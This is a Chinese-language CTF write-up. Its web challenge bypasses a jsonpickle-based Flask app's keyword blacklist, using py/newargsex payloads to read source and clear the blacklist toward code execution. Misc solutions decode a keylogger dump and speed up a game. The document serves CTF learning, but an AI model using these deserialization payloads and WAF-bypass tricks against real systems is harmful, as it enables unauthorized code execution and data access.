
可以看到先判断是不是老式类，如果没有new方法就递归，如果不是老式类就报错。也就是说newargsex是专门给没实现__new__的类对象的。 再看看newargs的源码
是给实现了__new___的新类用的。 我们的py/newargsex是给没实现__new__的old-style class用的，而且里面的传参必须是以set（数组）的形式传，这样才能保证args, kwargs = obj[tags.NEWARGSEX]在运行时不会出错。
顺便提一嘴，我从网上查到newargs对应pickle协议中的__getnewargs__方法，用于指定创建对象实例时需要传递给__new__方法的参数。
工作原理：
# 当对象有__getnewargs__方法时
class MyClass:
def __init__(self, x, y):
self.x = x
self.y = y
def __getnewargs__(self):
return (self.x, self.y)
# jsonpickle编码后可能是：
{
"py/object": "MyClass",
"py/newargs": [10, 20] # 这些参数会传给MyClass.__new__(MyClass, 10, 20)
}反序列化过程：
# 伪代码
cls = get_class("MyClass")
args = obj_dict["py/newargs"] # [10, 20]
instance = cls.__new__(cls, *args) # MyClass.__new__(MyClass, 10, 20)newargsex对应pickle协议中的__getnewargs_ex__方法，这是Python 3中引入的更灵活的版本，支持同时传递位置参数和关键字参数。
工作原理：
class MyClass:
def __init__(self, x, y, z=None):
self.x = x
self.y = y
self.z = z
def __getnewargs_ex__(self):
return ((self.x, self.y), {'z': self.z}) # (args, kwargs)
# jsonpickle编码后：
{
"py/object": "MyClass",
"py/newargsex": [[10, 20], {"z": 30}] # [位置参数, 关键字参数]
}反序列化过程：
# 伪代码
cls = get_class("MyClass")
args, kwargs = obj_dict["py/newargsex"] # [10, 20], {"z": 30}
instance = cls.__new__(cls, *args, **kwargs) # MyClass.__new__(MyClass, 10, 20, z=30)
成功读取目录，但是有readflag，不能直接读flag，要rce 之后用{"py/object": "__main__.Session", "meta": {"user": {"py/object": "linecache.getlines", "py/newargsex": [{"py/set":["/app/app.py"]},""]},"ts":1753446254}}
读个源码先

from flask import Flask, request, make_response, render_template, redirect, url_for
import jsonpickle
import base64
import json
import os
import time
app = Flask(__name__)
app.secret_key = os.urandom(24)
class Account:
def __init__(self, uid, pwd):
self.uid = uid
self.pwd = pwd
class Session:
def __init__(self, meta):
self.meta = meta
users_db = [
Account("admin", os.urandom(16).hex()),
Account("guest", "guest")
]
def register_user(username, password):
for acc in users_db:
if acc.uid == username:
return False
users_db.append(Account(username, password))
return True
FORBIDDEN = [
'builtins', 'os', 'system', 'repr', '__class__', 'subprocess', 'popen', 'Popen', 'nt',
'code', 'reduce', 'compile', 'command', 'pty', 'platform', 'pdb', 'pickle', 'marshal',
'socket', 'threading', 'multiprocessing', 'signal', 'traceback', 'inspect', '\\\\', 'posix',
'render_template', 'jsonpickle', 'cgi', 'execfile', 'importlib', 'sys', 'shutil', 'state',
'import', 'ctypes', 'timeit', 'input', 'open', 'codecs', 'base64', 'jinja2', 're', 'json',
'file', 'write', 'read', 'globals', 'locals', 'getattr', 'setattr', 'delattr', 'uuid',
'__import__', '__globals__', '__code__', '__closure__', '__func__', '__self__', 'pydoc',
'__module__', '__dict__', '__mro__', '__subclasses__', '__init__', '__new__'
]
def waf(serialized):
try:
data = json.loads(serialized)
payload = json.dumps(data, ensure_ascii=False)
for bad in FORBIDDEN:
if bad in payload:
return bad
return None
except:
return "error"
@app.route('/')
def root():
return render_template('index.html')
@app.route('/register', methods=['GET', 'POST'])
def register():
if request.method == 'POST':
username = request.form.get('username')
password = request.form.get('password')
confirm_password = request.form.get('confirm_password')
if not username or not password or not confirm_password:
return render_template('register.html', error="所有字段都是必填的。")
if password != confirm_password:
return render_template('register.html', error="密码不匹配。")
if len(username) < 4 or len(password) < 6:
return render_template('register.html', error="用户名至少需要4个字符，密码至少需要6个字符。")
if register_user(username, password):
return render_template('index.html', message="注册成功！请登录。")
else:
return render_template('register.html', error="用户名已存在。")
return render_template('register.html')
@app.post('/auth')
def auth():
u = request.form.get("u")
p = request.form.get("p")
for acc in users_db:
if acc.uid == u and acc.pwd == p:
sess_data = Session({'user': u, 'ts': int(time.time())})
token_raw = jsonpickle.encode(sess_data)
b64_token = base64.b64encode(token_raw.encode()).decode()
resp = make_response("登录成功。")
resp.set_cookie("authz", b64_token)
resp.status_code = 302
resp.headers['Location'] = '/panel'
return resp
return render_template('index.html', error="登录失败。用户名或密码无效。")
@app.route('/panel')
def panel():
token = request.cookies.get("authz")
if not token:
return redirect(url_for('root', error="缺少Token。"))
try:
decoded = base64.b64decode(token.encode()).decode()
except:
return render_template('error.html', error="Token格式错误。")
ban = waf(decoded)
if waf(decoded):
return render_template('error.html', error=f"请不要黑客攻击！{ban}")
try:
sess_obj = jsonpickle.decode(decoded, safe=True)
meta = sess_obj.meta
if meta.get("user") != "admin":
return render_template('user_panel.html', username=meta.get('user'))
return render_template('admin_panel.html')
except Exception as e:
return render_template('error.html', error=f"数据解码失败。")
@app.route('/vault')
def vault():
token = request.cookies.get("authz")
if not token:
return redirect(url_for('root'))
try:
decoded = base64.b64decode(token.encode()).decode()
if waf(decoded):
return render_template('error.html', error="请不要尝试黑客攻击！")
sess_obj = jsonpickle.decode(decoded, safe=True)
meta = sess_obj.meta
if meta.get("user") != "admin":
return render_template('error.html', error="访问被拒绝。只有管理员才能查看此页面。")
flag = "NepCTF{fake_flag_this_is_not_the_real_one}"
return render_template('vault.html', flag=flag)
except:
return redirect(url_for('root'))
@app.route('/about')
def about():
return render_template('about.html')
if __name__ == '__main__':
app.run(host='0.0.0.0', port=8000, debug=False)
之后可以用list.clear()把黑名单清空
# from flask import Flask, request, make_response, render_template, redirect, url_for
import jsonpickle
import base64
import uuid
import json
import os
import bdb
import pdb
import time
class Account:
def __init__(self, uid, pwd):
self.uid = uid
self.pwd = pwd
class Session:
def __init__(self, meta):
self.meta = meta
FORBIDDEN = [
'builtins', 'os', 'system', 'repr', '__class__', 'subprocess', 'popen', 'Popen', 'nt',
'code', 'reduce', 'compile', 'command', 'pty', 'platform', 'pdb', 'pickle', 'marshal',
'socket', 'threading', 'multiprocessing', 'signal', 'traceback', 'inspect', '\\\\', 'posix',
'render_template', 'jsonpickle', 'cgi', 'execfile', 'importlib', 'sys', 'shutil', 'state',
'import', 'ctypes', 'timeit', 'input', 'open', 'codecs', 'base64', 'jinja2', 're', 'json',
'file', 'write', 'read', 'globals', 'locals', 'getattr', 'setattr', 'delattr', 'uuid',
'__import__', '__globals__', '__code__', '__closure__', '__func__', '__self__', 'pydoc',
'__module__', '__dict__', '__mro__', '__subclasses__', '__init__', '__new__'
]
def waf(serialized):
try:
data = json.loads(serialized)
payload = json.dumps(data, ensure_ascii=False)
for bad in FORBIDDEN:
if bad in payload:
return bad
return None
except:
return "error"
A = Session({})
payload = '''{"py/object": "__main__.Session", "meta": {"user": {"py/object": "__main__.FORBIDDEN.clear","py/newargs": []},"ts":1753446254}}'''
sess_obj = jsonpickle.decode(payload)
print(sess_obj.meta)
print(FORBIDDEN)反思
打比赛时如果看见没见过的新内容时不要光在谷歌搜，可以去一些论坛里找找，说不定会有发现，如果我能在比赛时看见先知论坛里那篇文章，不说能做出来，起码也能更近一步了
misc
SpeedMino
试了一下，发现分数是根据时间的增加而增加的，用cheat engine变速精灵把速度调为5000倍就能在游戏结束前将分数加到2600

NepCTF{You_ARE_SpeedMino_GRAND-MASTER_ROUNDS!_TGLKZ}NepBotEvent
exp:
import struct
import sys
# Scancode to key mapping (US keyboard layout)
# from /usr/include/linux/input-event-codes.h
KEY_CODES = {
0: '', 1: 'ESC', 2: '1', 3: '2', 4: '3', 5: '4', 6: '5', 7: '6', 8: '7', 9: '8',
10: '9', 11: '0', 12: '-', 13: '=', 14: 'BACKSPACE', 15: 'TAB', 16: 'q', 17: 'w',
18: 'e', 19: 'r', 20: 't', 21: 'y', 22: 'u', 23: 'i', 24: 'o', 25: 'p', 26: '[',
27: ']', 28: 'ENTER', 29: 'L_CTRL', 30: 'a', 31: 's', 32: 'd', 33: 'f', 34: 'g',
35: 'h', 36: 'j', 37: 'k', 38: 'l', 39: ';', 40: "'", 41: '`', 42: 'L_SHIFT',
43: '\\', 44: 'z', 45: 'x', 46: 'c', 47: 'v', 48: 'b', 49: 'n', 50: 'm', 51: ',',
52: '.', 53: '/', 54: 'R_SHIFT', 55: '*', 56: 'L_ALT', 57: 'SPACE', 58: 'CAPS_LOCK'
}
SHIFT_MAP = {
'`': '~', '1': '!', '2': '@', '3': '#', '4': '$', '5': '%', '6': '^', '7': '&',
'8': '*', '9': '(', '0': ')', '-': '_', '=': '+', '[': '{', ']': '}', '\\': '|',
';': ':', "'": '"', ',': '<', '.': '>', '/': '?'
}
# The format of the input_event struct on a 64-bit system is:
# long, long, short, short, int
# In Python's struct, 'q' is 8 bytes (long long)
EVENT_FORMAT = '<qqHHi'
EVENT_SIZE = struct.calcsize(EVENT_FORMAT) # 8 + 8 + 2 + 2 + 4 = 24 bytes
def main():
filepath = '将文件的十六进制复制进txt文件，NepBot_keylogger.txt的路径'
try:
with open(filepath, 'r') as f:
hex_data = f.read().replace('\n', '').replace(' ', '')
except FileNotFoundError:
print(f"Error: File not found at {filepath}")
return
byte_data = bytes.fromhex(hex_data)
result = ""
shift_pressed = False
for i in range(0, len(byte_data), EVENT_SIZE):
chunk = byte_data[i:i+EVENT_SIZE]
if len(chunk) < EVENT_SIZE:
continue
_, _, event_type, code, value = struct.unpack(EVENT_FORMAT, chunk)
# EV_KEY type is 1
if event_type == 1:
key = KEY_CODES.get(code)
if key is None:
continue
if 'SHIFT' in key:
# value 1 is press, 0 is release, 2 is repeat
shift_pressed = (value == 1 or value == 2)
continue
# On key press or repeat
if value == 1 or value == 2:
if len(key) == 1:
char = key
if shift_pressed:
if char.isalpha():
char = char.upper()
else:
char = SHIFT_MAP.get(char, char)
result += char
elif key == 'SPACE':
result += ' '
elif key == 'ENTER':
result += '\n'
elif key == 'BACKSPACE':
if result:
result = result[:-1]
print("--- Captured Keystrokes ---")
print(result)
print("---------------------------")
lines = result.split('\n')
db_name = None
for line in lines:
if 'use ' in line:
parts = line.split('use ')
if len(parts) > 1:
db_name = parts[1].split(';')[0].strip()
break
if '-D' in line:
parts = line.split('-D')
if len(parts) > 1:
db_name = parts[1].strip().split(' ')[0]
break
if 'database=' in line:
parts = line.split('database=')
if len(parts) > 1:
db_name = parts[1].strip().split(' ')[0]
break
if db_name:
print(f"Found potential database name: {db_name}")
print(f"Flag: NepCTF{{{db_name}}}")
else:
print("Could not automatically determine database name from keystrokes.")
if __name__ == "__main__":
main()运行结果：
--- Captured Keystrokes ---
uname -a
ps -aux
cat /etc/issue
pwd
mysql -uroot -proot
show databases;
use NepCTF-20250725-114514;
show tables;
Enjoy yourself~
See u again.
Hacked By 1cePeak:)
c
---------------------------
Found potential database name: NepCTF-20250725-114514
Flag: NepCTF{NepCTF-20250725-114514}